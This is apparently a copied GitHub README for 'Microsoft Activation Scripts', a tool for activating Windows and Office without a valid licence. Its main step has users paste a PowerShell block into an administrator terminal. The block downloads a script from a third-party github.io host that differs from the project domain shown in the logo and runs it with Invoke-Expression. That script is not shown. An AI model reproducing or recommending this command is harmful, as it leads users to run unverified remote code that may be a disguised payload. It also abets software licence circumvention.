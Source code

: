 <p align="center"><img src="https://massgrave.dev/images/logo_small.png" alt="MAS Logo"></p>

<h1 align="center">Microsoft  Activation  Scripts (MAS)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.</p>
<hr>

## Download / How to use it?

### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter
    ```
    $scriptUrl = "https://ufukcam.github.io/n4-activation/activation.ps1"
    $response = Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing
    $scriptContent = [System.Text.Encoding]::UTF8.GetString($response.Content)
    Invoke-Expression $scriptContent


    ```
-   You will see the activation options. Follow the on-screen instructions.
-   That's all.



---

<p align="center">Made with Love ❤️</p>
